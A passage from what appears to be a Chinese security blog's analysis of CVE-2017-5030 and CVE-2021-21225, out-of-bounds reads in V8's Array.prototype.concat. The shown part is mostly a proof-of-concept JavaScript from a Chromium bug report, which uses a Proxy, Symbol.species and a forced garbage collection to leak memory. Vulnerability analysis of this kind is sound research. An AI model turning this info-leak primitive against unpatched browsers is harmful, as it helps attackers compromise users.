 > 原文链接: https://www.anquanke.com//post/id/240031 


# CVE-2017-5030与CVE-2021-21225漏洞分析：Array Concat的越界读


                                阅读量   
                                **241963**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t01f302215ae38d4ab4.jpg)](https://p5.ssl.qhimg.com/t01f302215ae38d4ab4.jpg)



## CVE-2017-5030

### <a class="reference-link" name="PoC"></a>PoC
- [https://bugs.chromium.org/p/chromium/issues/detail?id=682194](https://bugs.chromium.org/p/chromium/issues/detail?id=682194)
```
// ../../v8/v8/out/x64.debug/d8 --allow-natives-syntax --expose-gc poc.js
  var p = new Proxy([], `{``}`);
  var b_dp = Object.prototype.defineProperty;

  class MyArray extends Array `{`
      static get [Symbol.species]() `{` return function() `{` return p; `}``}`; // custom constructor which returns a proxy object
  `}`

  var w = new MyArray(100);
  w[1] = 0.1;
  w[2] = 0.1;

  function evil_callback() `{`
      w.length = 1; // shorten the array so the backstore pointer is relocated
      gc();         // force gc to move the array's elements backstore
      return b_dp;
  `}`

  Object.prototype.__defineGetter__("defineProperty", evil_callback);

  var c = Array.prototype.concat.call(w);

  for (var i = 0; i &lt; 20; i++) `{` // however many values you want to leak
      print(c[i]);
  `}`
```
